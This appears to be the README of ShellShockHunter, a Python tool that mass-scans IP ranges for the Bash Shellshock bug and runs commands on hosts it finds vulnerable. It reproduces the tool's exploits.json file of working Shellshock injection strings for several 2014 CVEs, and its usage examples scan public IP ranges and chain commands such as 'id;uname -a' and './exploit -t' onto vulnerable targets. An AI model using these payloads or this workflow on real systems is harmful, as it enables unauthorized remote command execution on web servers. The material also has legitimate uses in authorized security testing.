




<h1 align="center">
  ShellShockHunter v1.0
</h1>

<p align="center">
  It's a simple tool for test vulnerability shellshock
<br/><br/>
  
<p align="center">
<a href="https://github.com/MrCl0wnLab/ShellShockHunter/">
  
</a>
</p>


  


</p>

```
Autor:    MrCl0wn
Blog:     http://blog.mrcl0wn.com
GitHub:   https://github.com/MrCl0wnLab
Twitter:  https://twitter.com/MrCl0wnLab
Email:    mrcl0wnlab\@\gmail.com
```

### Shellshock (software bug)
Shellshock, also known as Bashdoor, is a family of security bugs in the Unix 
Bash shell, the first of which was disclosed on 24 September 2014. Shellshock 
could enable an attacker to cause Bash to execute arbitrary commands and 
gain unauthorized access to many Internet-facing services, such as web servers,
that use Bash to process requests.


### Disclaimer
This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (***MrCl0wnLab***) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not ***MrCl0wnLab's*** responsibility.


### Installation
> Use the package manager [pip](https://pip.pypa.io/en/stable/)

### Pip

```
pip install shodan
pip install ipinfo
```
### Help

```
python main.py --help

                        
                                          ,/
                                        ,'/
                                      ,' /
                                    ,'  /_____,
                                  .'____    ,'    
                                        /  ,'
                                      / ,'
                                      /,'
                                    /'
             ____  _     _____ _     _     ____  _      ___       _    
            / ___|| |__ |___ /| |   | |   / ___|| |__  / _ \  ___| | __
            \___ \| '_ \  |_ \| |   | |   \___ \| '_ \| | | |/ __| |/ /
             ___) | | | |___) | |___| |___ ___) | | | | |_| | (__|   < 
            |____/|_| |_|____/|_____|_____|____/|_| |_|\___/ \___|_|\_\
                     __   _   _             _              __                  
                    | _| | | | |_   _ _ __ | |_ ___ _ __  |_ |                 
                    | |  | |_| | | | | '_ \| __/ _ \ '__|  | |                 
                    | |  |  _  | |_| | | | | ||  __/ |     | |                 
                    | |  |_| |_|\__,_|_| |_|\__\___|_|     | |                 
                    |__|                                  |__| v1.0                
                      By: MrCl0wn / https://blog.mrcl0wn.com                                                                          
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>] 
[--cmd-cgi <command shell>] [--exec-vuln <command shell>] [--thread <20>] 
[--check] [--ssl] [--cgi-file <cgi.txt>] [--timeout <5>] [--all] [--debug]

optional arguments:
  -h, --help                   show this help message and exit
  --file <ips.txt>             Input your target host lists
  --range <ip-start>,<ip-end>  Set range IP Eg.: 192.168.15.1,192.168.15.100
  --cmd-cgi <command shell>    Define shell command that will be executed in the payload
  --exec-vuln <command shell>  Executing commands on vulnerable targets
  --thread <20>, -t <20>       Eg. 20
  --check                      Check for shellshock vulnerability
  --ssl                        Enable request with SSL
  --cgi-file <cgi.txt>         Defines a CGI file to be used
  --timeout <5>                Set connection timeout
  --all                        Teste all payloads
  --debug, -d                  Enable debug mode

```

### Command e.g:
```
python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"' --debug
```
### Prints:
#### START

#### PROCESS

#### SPECIAL COMMAND ( --exec-vuln 'echo ```"_TARGET_"```' )

#### COMMAND ( --debug )

--debug
### Source file ( Exploits )
>pwd: assets/exploits.json
```json
{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 20,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree

```bash
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print00.png
│       ├── print01.png
│       ├── print02.png
│       └── print03.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_shock.py
│   ├── color_shock.py
│   ├── debug_shock.py
│   ├── file_shock.py
│   ├── __init__.py
│   ├── request_shock.py
│   ├── shodan_shock.py
│   └── thread_shock.py
├── output
│   └── vuln.txt
├── README.md
└── wordlist
    └── cgi.txt
```

### Ref
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://blog.inurl.com.br/search?q=shellshock
- https://github.com/googleinurl/Xpl-SHELLSHOCK-Ch3ck/blob/master/xplSHELLSHOCK.php
- https://github.com/chelseakomlo/shellshock_demo
- https://github.com/xdistro/ShellShock/blob/master/shellshock_test.sh
- https://github.com/capture0x/XSHOCK/blob/master/main.py
- https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html
- https://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high-risk.html
- https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1410-exploits/apachemodcgi-shellshock.txt
- https://github.com/gajos112/OSCP/blob/master/Shellshock.txt
- https://dl.packetstormsecurity.net/1606-exploits/sunsecuregdog-shellshock.txt
- http://stuff.ipsecs.com/files/ucs-shellshock_pl.txt
- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://manualdousuario.net/shellshock-bash-falha/
- https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit


### Roadmap
I started this project to study a little more python and interact more with APIS like shodan and ipinfo.
* [x] Command line structure
* [x] Banner
* [x] File management class
* [x] HttpRequests management class
* [x] Thread management class
* [x] Source file for exploits
* [x] Color in process
* [x] Shell Exec on vulnerable targets
* [x] Process debug
